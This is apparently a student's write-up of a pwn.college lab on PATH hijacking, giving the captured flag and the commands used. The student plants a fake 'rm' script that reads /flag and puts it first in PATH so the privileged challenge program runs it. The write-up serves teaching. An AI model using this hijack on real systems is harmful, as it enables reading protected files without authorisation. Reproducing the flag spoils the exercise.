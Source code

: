# Pondering PATH

## Hijacking Commands
You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

### Solve
**Flag:** `pwn.college{8T8J5mw-evQ5qFOky-6U_5rzD4I.QX3cjM1wiNwIzNzEzW}`

Typed ```echo $PATH``` and saw a list of directories and one by one checked if it had cat inside using ```ls``` and found it in ```/usr/bin```. I added a ```rm``` file with the text ```/usr/bin/cat /flag```. Next, I added it to the path using ```PATH="$PWD:$PATH"``` and got the flag.

```bash
echo $PATH
nano rm
/usr/bin/cat /flag 
chmod +x rm
PATH="$PWD:$PATH"
/challenge/run
pwn.college{8T8J5mw-evQ5qFOky-6U_5rzD4I.QX3cjM1wiNwIzNzEzW}
```

### New Learnings
Learnt about hijacking commands.
